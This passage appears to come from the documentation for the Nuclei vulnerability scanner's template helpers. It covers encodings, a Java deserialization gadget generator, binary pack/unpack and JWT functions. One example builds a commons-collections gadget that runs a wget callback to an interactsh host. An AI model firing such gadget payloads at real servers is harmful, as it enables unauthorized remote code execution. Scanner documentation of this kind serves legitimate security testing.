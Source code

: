 **Supported encodings:**

- `base64` (default)
- `gzip-base64`
- `gzip`
- `hex`
- `raw`

**Deserialization helper function format:**

```yaml
{{generate_java_gadget(payload, cmd, encoding}}
```

**Deserialization helper function example:**

```yaml
{{generate_java_gadget("commons-collections3.1", "wget http://{{interactsh-url}}", "base64")}}
```

**Binary pack/unpack**

The gostruct package provides functionality for converting Go values represented as byte slices. It uses format strings to describe the layout of the Go structs. The format characters include boolean, big endian, little endian, int, float32, float64, and string types with different packed sizes. Currently, only binary unpack of the first operand after endianess has been supported.

#### JSON helper functions

Nuclei allows manipulate JSON strings in different ways, here is a list of its functions:

- `generate_jwt`, to generates a JSON Web Token (JWT) using the claims provided in a JSON string, the signature, and the specified algorithm.
- `json_minify`, to minifies a JSON string by removing unnecessary whitespace.
- `json_prettify`, to prettifies a JSON string by adding indentation.

**Examples**

**`generate_jwt`**

To generate a JSON Web Token (JWT), you have to supply the JSON that you want to sign, _at least_.

Here is a list of supported algorithms for generating JWTs with `generate_jwt` function _(case-insensitive)_:

- `HS256`
- `HS384`
- `HS512`
- `RS256`
- `RS384`
- `RS512`
- `PS256`
- `PS384`
- `PS512`
- `ES256`
- `ES384`
- `ES512`
- `EdDSA`
- `NONE`
